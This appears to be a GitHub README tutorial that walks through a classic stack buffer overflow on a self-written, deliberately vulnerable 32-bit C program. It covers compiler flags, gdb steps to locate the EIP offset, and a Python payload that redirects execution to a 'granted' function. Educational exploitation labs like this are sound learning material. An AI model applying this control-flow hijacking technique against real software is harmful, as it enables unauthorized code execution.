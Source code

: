 # buffer_overflow_simulation
*An article and instruction to perform simple stack overflow vulnerability exploit (For Educational Purposes Only).*

I am going to demonstrate simple buffer overflow attack by using free source like google cloud console.
# STAGE 1 : Preparation
- Open https://console.cloud.google.com/
- Sign In using google account.
- Activate cloud shell and use root access :
  ```
  sudo su
  ```
- Install build-essential, gcc-multilib, and gdb.
  ```
  apt install build-essential gcc-multilib gdb -y
  ```
- Create a simple program using C language with name app.c  *file attached in this repository, copy + paste it*.
  ```
  nano app.c
  ```
- Compile C program using 32 bit to simplify our simulation by using this command.
  ```
  gcc -g -m32 -no-pie -o app app.c
  ```
- Make a input file name attack.txt  *file attached in this repository, copy + paste it*.
  ```
  nano attack.txt
  ```
- Test the program by using attack.txt.
  ```
  ./app < attack.txt
  ```
# STAGE 2 : Debugging
- Debug application using gdb.
  ```
  gdb -q app
  ```
- Use command list 1,20 to list source code from line 1 to 20.
  ```
   list 1,20
  ```
- Pause the process at line 9 to analyze memory after string is being input with command.
  ```
  break 9
  ```
- run application, it will reach break point 1 (line 9).
  ```
  run < attack.txt
  ```
- Get detail information about stack memory.
  ```
  info reg
  ```
- The most important information here is ESP and EIP register.
- The register ‘ESP’ is used to point to the next item on the stack and is referred to as the ‘stack pointer’.
- EIP is a register in x86 architectures (32bit). It holds the "Extended Instruction Pointer" for the stack. In other words, it tells the computer where to go next to execute the next command and controls the flow of a program.
- Open table of stack memory, Our mission is to find where EIP located in this memory table.
  ```
  x/12x $esp
  ```
- By knowing the location of EIP, we can determine where to put our payload to take control next execution command.
- Now we test by changing the input from AAAA to AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ
- Close gdb
  ```
  quit
  ```
- Use this command to change the input.
  ```
  bash -c "echo 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ' > attack.txt"
  ```
- Debug application to inspect the memory.
  ```
  gdb -q app
  ```
- Set break point to 9.
  ```
  break 9
  ```
- Run application and set input from attack.txt.
  ```
  run < attack.txt
  ```
- When it reaches break point. Dissassable the function to find memory address of granted function.
  ```
  disas main
  ```
- Then open stack memory.
  ```
  x/12x $esp
  ```
- Continue the process.
  ```
  continue
  ```
# STAGE 3 : Finding
- The result shows segmentation fault error it return the value of 0x47474646 which is the next execution command. It failed to execute because it doesn't link to any process.
- We already know that EIP store value of the next execution command. Which mean 0x47474646 is the value of EIP.
- From the memory table we can find the position of EIP is on 4rd column and second row.
- Because we use alphabet character we can easily conclude that 46 and 47 are F and G respectively.
- Therefore the payload should be placed on FFGG
# STAGE 4 : Creating Payload
- We create the payload using python  and  put memory address of granted function in EIP variable *file attached in this repository, copy + paste it*.
  ```
  nano payload
  ```
- Memory address of granted function is stored in little-endian fashion, the least significant bytes can stay where they are and new digits are added to the right at a higher address.
- Put the payload into file attack.txt
  ```
  python3 payload > attack.txt
   ```
- Attack the application using attack.txt.
   ```
  ./app < attack.txt
   ```
- Now we are successfully gain the access
